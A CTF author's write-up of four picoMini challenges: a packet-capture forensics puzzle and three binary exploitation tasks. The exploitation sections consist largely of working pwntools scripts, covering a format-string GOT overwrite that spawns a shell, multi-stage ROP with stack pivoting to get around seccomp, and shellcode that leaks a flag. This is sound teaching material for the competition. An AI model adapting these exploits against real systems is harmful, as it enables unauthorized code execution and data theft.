







Now that exams are all over, I finally have an opportunity to share my solutions for some challenges from the recent picoMini by redpwn that I either wrote or helped write. I won't go into a lot of detail as other writeups have already been posted, but I will provide some additional insight from writing these challenges.

# scrambled-bytes (forensics)
> I sent my secret flag over the wires, but the bytes got all mixed up!

## Solution
We're given a script `send.py` that sends data over the network using `scapy`.

```python
def main(args):
  with open(args.input, 'rb') as f:
    payload = bytearray(f.read())
  random.seed(int(time()))
  random.shuffle(payload)
  with IncrementalBar('Sending', max=len(payload)) as bar:
    for b in payload:
      send(
        IP(dst=str(args.destination)) /
        UDP(sport=random.randrange(65536), dport=args.port) /
        Raw(load=bytes([b^random.randrange(256)])),
      verbose=False)
      bar.next()
```

As we can see, the data is first shuffled, then sent one byte at a time as a UDP packet, each byte XORed with some random number. Note that since the Python RNG is seeded with `int(time())`, we can just reuse the same seed by figuring out when these packets were sent.

Taking a look at the packet capture in Wireshark, we can see a large chunk of UDP packets sent to port 56742:



We can use `scapy` to parse the packet capture and extract all the transferred bytes:

```python
from scapy.all import *

# only parse Ether, IP, UDP
conf.layers.filter([Ether, IP, UDP])

# get packets
capture = rdpcap('capture.pcapng')
packets = capture.filter(lambda p: UDP in p and p[UDP].dport == 56742)

# get bytes
data = bytearray(b''.join(p[UDP][Raw].load for p in packets))
```

How do we seed the RNG though? It turns out that, despite Wireshark only showing the timestamps relative to the start of the capture, exact timestamps *are* stored in the packet capture.

```python
import random

# seed random
random.seed(int(packets[0].time)//1000)
```

From here, all we need to do is reverse the shuffling and XOR, taking care to sample from the RNG in the correct order:

```python
# undo shuffle part 1
order = [*range(len(data))]
random.shuffle(order)

# undo xor
for i in range(len(data)):
  random.randrange(65536)
  data[i] ^= random.randrange(256)

# undo shuffle part 2
unshuffle = bytearray(len(data))
for i, x in enumerate(order):
  unshuffle[x] = data[i]
```

This unshuffles the entire payload. If we write it to a file, we can see that the result is a PNG, and opening it in any image viewer gives the flag.



```
picoCTF{n0_t1m3_t0_w4st3_5hufflin9_ar0und}
```

## Author Remarks
I don't usually like forensics because it is very easy for authors to make the challenges unreasonably guessy. However, picoCTF usually includes some forensics so I aimed to make something as complex as I could without introducing any guessing.

Making the flag a picture rather than a string of text was a deliberate decision, as I wanted the network traffic to be easily identifiable in the packet capture. I figured a PNG file was familiar enough (if you saw the header you'd recognize it) and also big enough. However, my previous experience as a challenge author told me that any flag that wasn't text was bound to cause trouble, as some people would misread the flag or come across some ambiguity in the font. So, I spent a long time trying to make each character completely clear, though in hindsight just typing it out with regular text would probably have been easier (but that's no fun).

I was also concerned that different Python versions would have a slightly different RNG implementation. However, the shebang line at the top of the script is `#!/usr/bin/env python3`, which rules out any version of Python 2. I tested the solution script with several recent versions of Python 3 and found no discrepancies, which was good enough for me. I did not hear about any issues with this during the CTF.

Finally, the packet capture included a lot of additional noise, which was brought up as a concern during review. However, I decided that the important packets were easy enough to spot with a casual glance so did not regenerate the packet capture.

# fermat-strings (pwn)
> Fermat's last theorem solver as a service.
>
> `nc mars.picoctf.net 31929`

## Solution
The given binary contains a fairly obvious format string vulnerability, as user input it `snprintf`ed into a buffer which is then passed to `printf` as the format string argument:

```c
char buffer[SIZE];
snprintf(buffer, SIZE, "Calculating for A: %s and B: %s\n", A, B);
printf(buffer);
```

However, since our input is not printed directly, we have to be a little bit more careful about using `%n` because there are some bytes printed before our input so we have to subtract that number from our padding.

We also have to make sure `atoi(A)` and `atoi(B)` do not return 0, but this is pretty easy as we can just put `1 foobar` and `atoi` will return 1.

The first step of the solution is to write the address of `main` to the GOT address of `pow`, so that the program loops. We can also use this stage to grab a libc leak:

```python
a = b'1 %2082c%12$hn  ' + p64(exe.got['pow'])
b = '2 %109$p'
r.sendlineafter('A: ', a)
r.sendlineafter('B: ', b)
```

These two strings are combined to make the full format string. The first part puts the GOT address of `pow` on the stack buffer, then uses it to write the bottom two bytes to be `main`. Then, the second part leaks a libc address. Usually, leaking addresses off the stack is inconsistent between environments, but here we leak the return address of main, which is in `__libc_start_main`. This address *is* consistent, and allows us to lookup the libc version on the [libc database](https://libc.blukat.me/).





We can download this libc and then use it to calculate the base address of libc:

```python
r.recvuntil('2 0x')
libc.address = int(r.recv(12), 16) - 0x0270b3
log.info(hex(libc.address))
```

Next, I chose to overwrite the GOT address of `atoi` with `system`, but you could go for a different solution. With the infinite loop achieved, this challenge is pretty standard.

```python
third = (libc.sym['system']>>16)&0xff
bottom = libc.sym['system'] & 0xffff
first = third - 21
second = bottom - third

a = f'1 %{first}c%43$hhn%{second}c%44$hn'
b = b'2'.ljust(8, b' ') + p64(exe.got['atoi']+2) + p64(exe.got['atoi'])
r.sendlineafter('A: ', a)
r.sendlineafter('B: ', b)
```

Since `atoi` has already been called, it already points to libc. Therefore, we don't need to actually overwrite all of the bytes. To make things easier, I used the second input to put relavant addresses on the stack, then use the first input to do the writes. I chose to write the third byte with `hhn` first, then the bottom two bytes with `hn`.

After that, all we need to do is send `/bin/sh` as an input, which will then get passed to `atoi` which we overwrote with `system`, giving a shell.



```
picoCTF{f3rm4t_pwn1ng_s1nc3_th3_17th_c3ntury}
```

## Author Remarks
While I was not the main author of this challenge, I did make several modifications to it and I also wrote the reference solution. This challenge was originally much easier, as the program called `system` (so it was in the PLT already) and had an infinite loop as well. I made changes because I felt that our binary exploitation challenges as a whole were leaning a little too much on the easy side.

# lockdown-horses (pwn)
> Here at Moar Horse Industries, we believe, especially during these troubling times, that everyone should be able to make a horse say whatever they want.
>
> We were tired of people getting shells everywhere, so now it should be impossible! Can you still find a way to rope yourself out of this one?
>
> Flag is in the current directory. [seccomp-tools](https://github.com/david942j/seccomp-tools) might be helpful.
>
> `nc mars.picoctf.net 31809`

## Solution
We are given a `Dockerfile` with a pinned Ubuntu version, so we can grab the exact version of libc. There is a trivial buffer overflow in `main`:

```c
int main(void)

{
  char buf [32];

  setup();
  read(0,buf,0x80);
  horse(buf);
  return 0;
}
```

However, `setup` loads a seccomp filter:

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x13 0xc000003e  if (A != ARCH_X86_64) goto 0021
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x10 0xffffffff  if (A != 0xffffffff) goto 0021
 0005: 0x15 0x0e 0x00 0x00000002  if (A == open) goto 0020
 0006: 0x15 0x0d 0x00 0x00000009  if (A == mmap) goto 0020
 0007: 0x15 0x0c 0x00 0x0000003c  if (A == exit) goto 0020
 0008: 0x15 0x0b 0x00 0x000000d9  if (A == getdents64) goto 0020
 0009: 0x15 0x0a 0x00 0x000000e7  if (A == exit_group) goto 0020
 0010: 0x15 0x00 0x04 0x00000000  if (A != read) goto 0015
 0011: 0x20 0x00 0x00 0x00000014  A = fd >> 32 # read(fd, buf, count)
 0012: 0x15 0x00 0x08 0x00000000  if (A != 0x0) goto 0021
 0013: 0x20 0x00 0x00 0x00000010  A = fd # read(fd, buf, count)
 0014: 0x15 0x05 0x06 0x00000000  if (A == 0x0) goto 0020 else goto 0021
 0015: 0x15 0x00 0x05 0x00000001  if (A != write) goto 0021
 0016: 0x20 0x00 0x00 0x00000014  A = fd >> 32 # write(fd, buf, count)
 0017: 0x15 0x00 0x03 0x00000000  if (A != 0x0) goto 0021
 0018: 0x20 0x00 0x00 0x00000010  A = fd # write(fd, buf, count)
 0019: 0x15 0x00 0x01 0x00000001  if (A != 0x1) goto 0021
 0020: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0021: 0x06 0x00 0x00 0x00000000  return KILL
```

Essentially, we are allowed to:
- open
- read to fd 0 only (stdin)
- write to fd 1 only (stdout)
- mmap
- getdents64
- exit
- exit_group

This is rather restrictive. We will probably have to use `getdents64` to find the filename of the flag. Luckily, we have the `Dockerfile` so we know exactly where it is:

```dockerfile
RUN mv /srv/app/flag.txt /srv/app/flag-`cat /proc/sys/kernel/random/uuid`.txt
```

This is pretty tricky because we don't have a lot of space to work with. In addition, we must call `read` which needs three arguments, which can be quite difficult to control. We will utilize some stack pivoting and ret2csu to do this:

```python
rdi = 0x400c03
rsp_3 = 0x400bfd

csu_1 = 0x400bfa
csu_2 = 0x400be0

p = b'A'*31 + b'\n'
p += p64(exe.bss() + 0xf00)
p += p64(exe.sym['main'] + 18)
r.send(p)
r.recvuntil('  /     /')

# do a stack pivot in two halves since limited write space
p = b'A'*31 + b'\n'
p += p64(exe.bss() + 0xf00 + 14*8)
p += p64(exe.sym['main'] + 18)
p += p64(csu_1)
p += p64(0)
p += p64(1)
p += p64(exe.got['read'])             # read
p += p64(0)                           # fd
p += p64(exe.bss() + 0x900)           # buf
p += p64(0x400)                       # count
p += p64(csu_2)
r.send(p)
r.recvuntil('  /     /')

# second half
p = p64(0)*5
p += p64(rsp_3)                       # pivot to start of pivot
p += p64(exe.bss() + 0xf00 + 0x10 - 3*8)
p += p64(rsp_3)                       # pivot
p += p64(exe.bss() + 0x900 - 3*8)
r.send(p)
r.recvuntil('  /     /')
```

Recall that at the end of a function, the `leave; ret` sets the stack pointer to the base pointer, then pops the base pointer. Therefore, we can control the value of `rbp` by putting a specific value at this location. We then return to the middle of `main` where the input is done to read even more. Since `main` reads to `rbp - 0x20` and we control `rbp`, we can control where this read goes.

```python
# leak to get libc gadgets, read another
p = p64(csu_1)
p += p64(0)
p += p64(1)
p += p64(exe.got['write'])            # write
p += p64(1)                           # fd
p += p64(exe.got['read'])             # buf
p += p64(8)                           # count
p += p64(csu_2)
p += p64(0)
p += p64(0)
p += p64(1)
p += p64(exe.got['read'])             # read
p += p64(0)                           # fd
p += p64(exe.bss() + 0xe00)           # buf
p += p64(0x400)                       # count
p += p64(csu_2)
p += p64(0)*7
p += p64(rsp_3)                       # pivot
p += p64(exe.bss() + 0xe00 - 3*8)
r.clean()
r.send(p)

libc.address = u64(r.recv(8)) - libc.sym['read']
log.info(f'libc @ {libc.address:x}')
```

This bit of code uses `write` to leak a libc address, then `read`s another ROP chain and returns to it. Now that we have the base address of libc, we can use ROP gadgets from libc (and there are a ton more). These are the gadgets I found, though automatic tools could probably do a better job:

```python
rax = libc.offset_to_vaddr(0x4a550)
# pop rax ; ret
rsi = libc.offset_to_vaddr(0x27529)
# pop rsi ; ret
rdx_2 = libc.offset_to_vaddr(0x162866)
# pop rdx ; pop rbx ; ret
rcx = libc.offset_to_vaddr(0x9f822)
# pop rcx ; ret
r8_rax_1 = libc.offset_to_vaddr(0x156298)
# mov r8, rax ; mov rax, r8 ; pop rbx ; ret
r9_rax_3 = libc.offset_to_vaddr(0x7d2f0)
# mov r9, rax ; pop r12 ; pop r13 ; mov rax, r9 ; pop r14 ; ret
push_rax_pop_rbx_2 = libc.offset_to_vaddr(0x151841)
# push rax ; pop rbx ; pop rbp ; pop r12 ; ret
rsi_rbx_call_rax = libc.offset_to_vaddr(0x155a83)
# mov rsi, rbx ; call rax
push_rsi = libc.offset_to_vaddr(0x45443)
# push rsi ; ret
```

The next step is to use these gadgets to `mmap` an rwx memory page:

```python
# mmap executable page
p = p64(rax)
p += p64((1<<32)-1)                   # fd
p += p64(r8_rax_1)
p += p64(0)
p += p64(rax)
p += p64(0)                           # offset
p += p64(r9_rax_3)
p += p64(0)*3
p += p64(rdi)
p += p64(0)                           # addr
p += p64(rsi)
p += p64(0x1000)                      # length
p += p64(rdx_2)
prot = constants.PROT_EXEC | constants.PROT_READ | constants.PROT_WRITE
p += p64(prot)*2                      # prot
p += p64(rcx)
flags = constants.MAP_SHARED | constants.MAP_ANONYMOUS
p += p64(flags)                       # flags
p += p64(libc.sym['mmap'])

# write assembly into mmap
p += p64(push_rax_pop_rbx_2)          # buf
p += p64(0)*2
p += p64(rax)
p += p64(rdi)
p += p64(rsi_rbx_call_rax)
p += p64(rdi)
p += p64(0)                           # fd
p += p64(rdx_2)
p += p64(0x400)*2                     # count
p += p64(libc.sym['read'])
p += p64(push_rsi)                    # jump to shellcode

r.clean()
r.send(p)
```

From here it is just simple assembly code to do the `getdents64` syscall to find the filename, then `open`, `read`, `write` the flag to stdout.

```python
pause(1)
r.send(asm('''
// save the value of rsi for later
push rsi

// open dir
push 0x2e
mov rdi, rsp
pop rsi
mov rsi, O_RDONLY
mov rax, SYS_open
syscall

// getdents64
mov rdi, rax
mov rsi, {0}
mov rdx, 0x800
mov rax, SYS_getdents64
syscall

// write dents
mov rdx, rax
mov rdi, STDOUT_FILENO
mov rsi, {0}
mov rax, SYS_write
syscall

// read into mmap again
mov rdi, STDIN_FILENO
pop rsi
mov rdx, 0x400
mov rax, SYS_read
syscall

// jump to top of mmap page
jmp rsi
'''.format( exe.bss()+0x700 )))
offset = len(r.recvuntil('flag', drop=True))
log.info(f'offset {offset}')
log.info('flag' + r.recvuntil('.txt').decode())

r.clean()
r.send(asm('''
// open flag
mov rdi, {0}
mov rsi, O_RDONLY
mov rax, SYS_open
syscall

// mmap flag
mov r8, rax
mov rdi, 0
mov rsi, 0x1000
mov rdx, PROT_READ | PROT_WRITE
mov r10, MAP_PRIVATE
mov r9, 0
mov rax, SYS_mmap
syscall

// print with horse just for fun
mov rdi, rax
mov rax, {1}
jmp rax
'''.format( exe.bss()+0x700+offset, exe.sym['horse'] )))
```

After all of this chaining, we get the flag:



```
picoCTF{n0_sh3ll_v3ry_flag_xdd}
```

## Author Remarks
The goal of this challenge was to introduce seccomp while testing competitors on some more complex ROP. From talking to some teams who solve this, I could tell that there were many different strategies, but they all involved some kind of stack pivot and several stages. As a challenge author, I really could not have asked for more! This is exactly what I wanted to hear.

Some people mentioned our heavy use of seccomp in our binary exploitation challenges. However, I want to say for the record that this one was the first one with seccomp and the only one designed to have seccomp from the start. It was added to other challenges as an afterthought.

Providing the `Dockerfile` is sometimes controversial because newer players who don't know what Docker is would not know what to do with it. However, I think Docker is becoming more common and being able to quickly setup a local server identical to the one that is deployed is very helpful. We did, however, have some issues with redpwn jail specifically, as running it is not as straightforward as other Docker images. In the future, we will probably provide more specific instructions for how to build and run these Docker images.

# saas (pwn)
> Shellcode as a Service runs any assembly code you give it! For extra safety, you're not allowed to do a lot...
>
> `nc mars.picoctf.net 31021`

## Solution
The binary reads the flag into a global buffer, then reads some code from stdin and runs it. However, there is a strict seccomp allowing only writing to stdout and the binary has PIE so the address of the flag is randomized.

There is a header inserted at the start of the rwx page, and our input goes after it. We can follow the link in the source to disassemble this:

```nasm
xor rax, rax
mov rdi, rsp
and rdi, 0xfffffffffffff000
sub rdi, 0x2000
mov rcx, 0x600
rep stosq qword ptr [rdi], rax
xor rbx, rbx
xor rcx, rcx
xor rdx, rdx
xor rsp, rsp
xor rbp, rbp
xor rsi, rsi
xor rdi, rdi
xor r8, r8
xor r9, r9
xor r10, r10
xor r11, r11
xor r12, r12
xor r13, r13
xor r14, r14
xor r15, r15
```

This essentially clears every register and also writes a bunch of nulls to the stack. So, the challenge is to somehow recover the address of the PIE binary.

There is one register that is not cleared (because it can't), and that is `rip`. Also note that, since the address provided to `mmap` is `NULL`, the rwx page is at a consistent offset to libc and ld pages. Normally, we would not be able to find this offset, but since we have the `Dockerfile` we can spin up a local instance. Then, we'll use RIP-relative addressing to get the address of `struct link_map` in ld memory, which we can dereference to get the `l_addr` struct member, which is the base address of the binary. From here, all we need to do is add the offset of the flag buffer and write it to stdout.

The only tricky bit is finding the page offset. Using our local instance, we can open a connection, then use a shell inside the Docker container to read `/proc/<pid>/maps`:

```
$ docker exec -it saas /bin/sh
/ # ps
PID   USER     TIME  COMMAND
    1 nsjail    0:00 /jail/nsjail -C /tmp/nsjail.cfg
   30 nsjail    0:00 /app/run
   31 root      0:00 /bin/sh
   37 root      0:00 ps
/ # cat /proc/30/maps
55a03f456000-55a03f458000 r-xp 00000000 08:30 84500                      /app/run
55a03f657000-55a03f658000 r--p 00001000 08:30 84500                      /app/run
55a03f658000-55a03f659000 rw-p 00002000 08:30 84500                      /app/run
7f736d6d7000-7f736d6da000 rw-p 00000000 00:00 0
7f736d6da000-7f736d6ff000 r--p 00000000 08:30 82158                      /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f736d6ff000-7f736d877000 r-xp 00025000 08:30 82158                      /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f736d877000-7f736d8c1000 r--p 0019d000 08:30 82158                      /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f736d8c1000-7f736d8c2000 ---p 001e7000 08:30 82158                      /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f736d8c2000-7f736d8c5000 r--p 001e7000 08:30 82158                      /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f736d8c5000-7f736d8c8000 rw-p 001ea000 08:30 82158                      /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f736d8c8000-7f736d8cc000 rw-p 00000000 00:00 0
7f736d8cc000-7f736d8f4000 r--p 00000000 08:30 82259                      /usr/lib/x86_64-linux-gnu/libseccomp.so.2.4.3
7f736d8f4000-7f736d8ff000 r-xp 00028000 08:30 82259                      /usr/lib/x86_64-linux-gnu/libseccomp.so.2.4.3
7f736d8ff000-7f736d903000 r--p 00033000 08:30 82259                      /usr/lib/x86_64-linux-gnu/libseccomp.so.2.4.3
7f736d903000-7f736d91e000 r--p 00036000 08:30 82259                      /usr/lib/x86_64-linux-gnu/libseccomp.so.2.4.3
7f736d91e000-7f736d91f000 rw-p 00051000 08:30 82259                      /usr/lib/x86_64-linux-gnu/libseccomp.so.2.4.3
7f736d91f000-7f736d921000 rw-p 00000000 00:00 0
7f736d923000-7f736d924000 r--p 00000000 08:30 82136                      /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f736d924000-7f736d947000 r-xp 00001000 08:30 82136                      /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f736d947000-7f736d94f000 r--p 00024000 08:30 82136                      /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f736d94f000-7f736d950000 rwxp 00000000 00:00 0
7f736d950000-7f736d951000 r--p 0002c000 08:30 82136                      /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f736d951000-7f736d952000 rw-p 0002d000 08:30 82136                      /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f736d952000-7f736d953000 rw-p 00000000 00:00 0
7fff4de3e000-7fff4de5f000 rw-p 00000000 00:00 0                          [stack]
7fff4dfe6000-7fff4dfe9000 r--p 00000000 00:00 0                          [vvar]
7fff4dfe9000-7fff4dfeb000 r-xp 00000000 00:00 0                          [vdso]
```

On this run, we can see our rwx page at `0x7f736d94f000`, and the first ld page at `0x7f736d923000`. Then, we can use the libc and ld from the Docker container to find the offset of `struct link_map` from the first ld page, which is `0x2f190`. This is all we need to solve the challenge:

```python
offset = 0x7f736d923000 - 0x7f736d94f000 + 0x2f190
cod = asm('''
lea rax, [rip-0x52]
add rax, {0}
mov rsi, QWORD PTR [rax]
add rsi, {1}
mov rdi, 1
mov rdx, 64
mov rax, SYS_write
syscall
'''.format(offset, exe.sym['flag']))

r.sendline(cod)
r.interactive()
```



```
picoCTF{f0ll0w_th3_m4p_t0_g3t_th3_fl4g}
```

## Author Remarks
This challenge definitely presented some difficulties during the competition. I heard from many competitors that the server was "too slow," which baffled me because my solution script got the flag almost instantly. The reason the server was too slow for many was because they were writing memory scanners in assembly to loop through many addresses, searching for the flag. To be fair, I should have seen this coming—if I didn't know about the intended solution, I probably would have gone for a memory scanner as well.

Several competitors also complained about the difficulty of running `gdb` inside the Docker container for many binary exploitation challenges, particularly this one. Indeed, redpwn jail is designed in a way that makes this pretty difficult, but debugging the binary inside the Docker container was not necessary to solve the challenge. I do, however, expect that future challenges may require debugging inside the Docker container, so we will probably need to provide clearer instructions for how to do this.
